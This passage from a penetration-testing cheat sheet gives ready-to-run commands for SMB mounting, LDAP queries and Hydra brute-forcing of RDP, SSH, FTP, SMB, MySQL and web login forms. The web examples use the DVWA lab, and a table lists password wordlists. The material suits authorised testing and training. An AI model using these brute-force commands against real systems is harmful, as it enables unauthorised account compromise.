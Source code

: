 |Mount a share|`mount -t cifs -o username=$USERNAME,password=$PASSWORD //$TARGET/$SHARE /mnt`|

### 2.5. LDAP `389`

```sh
ldapsearch -b 'DC=lab,DC=vx' -H ldap://192.168.17.11 -D 'CN=Bind Account,CN=Users,DC=lab,DC=vx' -W
```

### 2.6. Brute force (Hydra)

#### RDP/SSH/FTP/SMB/MySQL

|   |   |
|---|---|
|Specify username|`hydra -l $USERNAME -P $PASSWORD_LIST $TARGET <rdp/ssh/ftp/smb/mysql>`|
|Use username list|`hydra -L $USERNAME_LIST -P $PASSWORD_LIST $TARGET <rdp/ssh/ftp/smb/mysql>`|

#### Web

Syntax:

`hydra` `-l $USERNAME`/`-L $USERNAME_LIST` `-P $PASSWORD_LIST` `$TARGET` `http-get-form`/`http-post-form` '`$PATH`:`$REQUEST_BODY`:`F=$FAILURE_VERBIAGE`/`S=$SUCCESS_VERBIAGE`:`H=Cookie:$NAME1=$VALUE1;$NAME2=$VALUE2`'

Examples:

```sh
hydra -l admin -P rockyou.txt dvwa.local http-get-form '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie:PHPSESSID=b9kvhjb7c268tb94445pugm0fa;security=low'
hydra -l admin -P rockyou.txt dvwa.local http-get-form '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie:PHPSESSID=b9kvhjb7c268tb94445pugm0fa;security=low'
hydra -L users.txt -P rockyou.txt dvwa.local http-get-form '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie:PHPSESSID=b9kvhjb7c268tb94445pugm0fa;security=low'
hydra -L users.txt -P rockyou.txt dvwa.local http-get-form '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie:PHPSESSID=b9kvhjb7c268tb94445pugm0fa;security=low'
```

#### Wordlists:

|List|Lines|
|---|---|
|`/usr/share/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt`|100,000|
|`/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt`|59,186|
|`/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt`|1,000,000|
|`/usr/share/wordlists/rockyou.txt`|14,344,392|
|`/usr/share/john/password.lst`|3,559|
|`/usr/share/seclists/Usernames/Names/names.txt`|10,177|
|`/usr/share/nmap/nselib/data/usernames.lst`|10|
|`/usr/share/nmap/nselib/data/passwords.lst`|5,007|
